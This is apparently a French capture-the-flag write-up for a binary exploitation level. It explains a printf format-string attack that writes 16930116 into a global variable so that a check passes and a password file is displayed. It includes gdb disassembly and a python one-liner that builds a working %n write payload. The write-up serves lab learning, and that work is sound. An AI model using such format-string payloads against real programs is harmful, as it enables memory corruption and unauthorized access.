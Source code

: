 Comme dans le level precedant la technique est la meme sauf que la le buffer est top petit pour tout ecrire dans le fgets.

Donc on va laisser printf remplir les 16930112 + les 4 octets de l'adresse pour que 16930116 soit stocké dans la variables globales m et que la comparaison soit validé afin d'affiché le fichier .pass

```gdb
0x0804848d <+54>:	mov    eax,ds:0x8049810
0x08048492 <+59>:	cmp    eax,0x1025544
0x08048497 <+64>:	jne    0x80484a5 <n+78>
```

```bash
python -c "print('\x10\x98\x04\x08%16930112x%12\$n')" > /tmp/exploit4
```